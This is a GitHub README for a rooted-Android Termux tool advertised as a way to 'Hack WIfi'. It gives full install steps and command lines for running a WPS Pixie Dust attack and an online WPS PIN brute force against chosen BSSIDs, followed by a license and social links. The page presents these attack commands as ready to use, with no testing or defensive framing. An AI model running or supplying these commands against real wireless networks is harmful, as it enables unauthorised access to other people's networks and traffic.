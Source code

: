 
<h1 align="center">Knownrdx</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

### Installation :

```bash
• pkg install
• pkg update
• pkg install python
• pkg install python2
• pkg install root-repo -y
• pkg install git tsu python wpa-supplicant pixiewps iw -y
• git clone https://github.com/knownrdx/wifi.git
• cd wifi 
• pip3 install -r requirements.txt
• chmod +x wifi.py
• sudo python wifi -i wlan0 -K
```
#### Help : `sudo python wifi/wifi.py --help`
#### Example : `sudo python wifi/wifi.py -i wlan0 --iface-down -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- sudo python wifi/wifi.py -i wlan0 --iface-down -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifi/wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifi/wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
🆉🅰🅷🅸🅳 🅷🅰🆂🅰🅽 (License)

Copyright (c) 2024 knownrdx

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/zahidnu0/iamzahidbd"> Here </a>

##### Modify History : => 🆉🅰🅷🅸🅳 🅷🅰🆂🅰🅽
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/Iam.Zahid0" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="zahid" height="30" width="40" /></a>
</div>
<a href="https://github.com/zahidnu0">  <img align="center" src="https://visitor-badge.laobi.icu/badge?style=flat-square&page_id=sadman-11.wifi-hack"></a>
